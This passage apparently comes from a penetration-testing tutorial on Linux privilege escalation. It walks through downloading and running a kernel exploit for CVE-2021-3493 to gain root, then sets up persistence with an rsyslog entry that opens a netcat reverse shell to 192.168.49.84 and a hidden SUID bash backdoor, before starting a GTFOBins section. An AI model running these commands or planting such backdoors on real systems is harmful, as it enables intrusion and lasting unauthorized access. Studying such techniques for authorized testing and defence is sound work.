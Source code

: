 2. **Exploit Preparation**:
   ```bash
   # On our attack machine
   ./kernel_exploit_helper.sh CVE-2021-3493

   # Exploit was successfully compiled
   # Set up Python HTTP server to serve the exploit
   cd exploit_CVE-2021-3493_20240315_102534
   python3 -m http.server 8000
   ```

3. **Exploitation on Target**:
   ```bash
   # Downloaded the exploit to the target
   cd /tmp
   wget http://192.168.49.84:8000/overlay_exploit

   # Made the exploit executable
   chmod +x overlay_exploit

   # Executed the exploit
   ./overlay_exploit

   # Result: Successfully escalated to root
   id
   uid=0(root) gid=0(root) groups=0(root),1001(webadmin)
   ```

4. **Post-Exploitation**:
   ```bash
   # Created persistent backdoor
   echo 'authpriv.* |/bin/nc 192.168.49.84 8888 -e /bin/bash' >> /etc/rsyslog.conf
   systemctl restart rsyslog

   # Established persistent access
   # Set up SUID backdoor
   cp /bin/bash /opt/.hidden/sysupdate
   chmod u+s /opt/.hidden/sysupdate
   ```

This example demonstrates how Linux Exploit Suggester can quickly identify kernel vulnerabilities that might be missed by broader scanning tools, allowing for targeted privilege escalation even on systems with limited attack surface.

## GTFOBins Techniques: Living Off the Land

GTFOBins (Get The Fuck Out Bins) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. These binaries can be abused to escalate privileges, transfer files, spawn shells, and perform other actions in the context of "living off the land" - using the tools already available on the system rather than introducing new ones.

### Understanding GTFOBins

GTFOBins catalogs binaries based on the security implications they may have when special functions are invoked. The main categories include:

